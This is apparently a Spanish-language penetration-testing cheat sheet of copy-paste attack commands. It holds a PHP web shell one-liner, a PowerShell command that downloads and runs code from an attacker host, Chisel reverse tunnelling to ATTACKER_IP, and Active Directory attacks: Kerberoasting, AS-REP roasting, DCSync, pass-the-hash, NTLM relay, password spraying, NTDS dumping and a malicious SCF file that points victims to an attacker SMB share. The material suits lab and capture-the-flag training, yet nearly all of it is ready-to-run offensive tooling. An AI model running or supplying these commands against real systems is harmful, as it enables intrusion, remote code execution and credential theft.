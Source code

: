 # Cheatsheet
Cosas copypaste

# Reverse Shells

Web Shell PHP
```
<?php system($_GET[cmd]);?>
```

Web Shell .aspx
```
https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx
```

# Powershell

Descargar binarios
```
powershell IEX(New-Object Net.WebClient).downloadString('http://IP:PORT/binario.binario')
```

# PostExplotacion

## Chisel

Atacante
```
./chisel server --reverse -p ATACKER_PORT
```

Víctima
```
./chisel client ATTACKER_IP:ATTACKER_PORT R:VICTIM_IP:VICTIM_PORT
```

## Mejorar Shell

Linux
```
script /dev/null -c bash
```
```
stty raw -echo ;fg
```
```
reset xterm
```
```
export TERM=xterm
```
```
export SHELL=bash
```

# Enumeracion

## Directory Listing & subdomain discovering

wfuzz

```
wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.dominio.ext" url
```
Gobuster

```
gobuster vhost -u url -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

# Active Directory (AD)

Kerbrute

```
kerbrute -users userlist.txt -dc-ip IP -domain domain.local
```
ASREPRoasting

```
GetNPUsers.py -dc-ip IP domain.local/user -outputfile hashes.asreproast
```
Kerberoastin

```
GetUserSPNs.py DC-IP\user:password
```
DRSUAPI (DCSync)

```
secretsdump.py domain.local/USER:PASSWORD@IP
```
Pass the hash

```
evil-winrm -i IP -u user -H 'NTHash'
```
```
psexec.py domain.local/user@ip -hashes 'LMHASH:NTHASH'
```
```
wmiexec.py user@IP -hashes 'LMHASH:NTHASH'
```
SMB Relay

```
responder -I  NETINTERFACE rdw
```
NTLM Relay (SAM dumping without 'c' flag)

```
python3 ntlmrelayx.py -tf targets.txt -smb2support -c "command"
```
Domain Host Discovery

```
crackmapexec smb network/address
```
User & Password Spraying

```
crackmapexec smb network/address -u users -p passwords
```
NTDS dumping

```
crackmapexec smb network/address -u users -p passwords --ntds vss
```
Userenum with RPC (-N para Null Session)

```
rpcclient -U 'domain.local\user%password' IP -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v '0x'
```
Descripcion usuarios with RPC

```
for rid in $(rpcclient -U 'dominio.local\user%password' IP -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v '0x'| tr -d '[]'); do echo -e "\n[+] Para el RID $rid:\n";  rpcclient -U 'dominio.local\user%password' IP -c "queryuser $rid" | grep -E -i "user name|description" ;done
```
ldapdomaindump

```
service apache2 start
```
```
ldapdomaindump -u 'domain.local\user' -p 'password' targetIP
```
Malicious SCF File

```
[Shell]
Command=2
IconFile=\\IP\smbfolder\CronoX.ico
[Taskbar]
Command=ToggleDesktop
```
```
impacket-smbserver smbFolder $(pwd) -smb2support
```
